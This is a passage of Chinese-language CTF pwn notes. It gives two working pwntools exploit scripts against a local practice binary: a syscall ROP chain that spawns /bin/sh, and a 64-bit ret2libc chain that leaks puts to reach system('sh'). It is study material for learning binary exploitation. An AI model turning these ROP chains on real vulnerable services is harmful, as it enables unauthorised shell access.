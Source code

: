         rand();
        int local_6c = rand();
        printf("%d",local_6c);
    }

    ```

### syscall

+ 开启了PIE
+ ```python
  from pwn import *

  p = process("./pwn")

  p.recvuntil(b"0x")
  gadget_addr = int(p.recv(12), 16)
  pop_rdi_ret_addr = gadget_addr + 8
  pop_rsi_rdx_ret_addr = gadget_addr + 10
  syscall_addr = gadget_addr + 13
  binsh_addr = gadget_addr + 0x2e67

  payload = b"a" * 64 + b"b" * 8 + p64(pop_rdi_ret_addr) + p64(binsh_addr) + p64(pop_rsi_rdx_ret_addr) + p64(0) + p64(0) + p64(syscall_addr)
  p.send(payload)
  p.recvline()
  p.send(b"a" * 59)

  p.interactive()

  ```
+ 注意sendline函数自带回车符，send不带。所以利用函数的返回值作为eax传参59调用号
  + 关于read函数：如果读取成功，它将返回读取的字节数。
    如果发生错误，它将返回-1。

### ret2libc

+ 64位常规libc题目p1= padding+pop_rdi+puts_got+puts_plt+主函数地址(main or vuln)
+ p2= padding+ret+rdi+sh_str+system_addr
+ ```python
  from pwn import *
  io=process('./pwn')
  elf=ELF('./pwn')
  libc=ELF('./libc.so.6')
  rdi=0x40117E
  libc_sh=0x1D8698
  puts_plt=elf.plt['puts']
  puts_got=elf.got['puts']
  vuln_addr=elf.sym['vuln']
  payload1=b'a'*(0x40+8)+p64(rdi)+p64(puts_got)+p64(puts_plt)+p64(vuln_addr)

  io.recv()
  io.sendline(payload1)
  libc_base = u64(io.recv(6).ljust(8, b"\x00")) - libc.sym["puts"]
  system_addr = int(libc_base) + int(libc.sym['system'])
  ret=0x40117F
  success(str(libc_base))

  payload2=b'a'*(0x40+8)+p64(ret)+p64(rdi)+p64(libc_sh)+p64(system_addr)
  io.sendline(payload2)
  io.interactive()

  ```
+ 
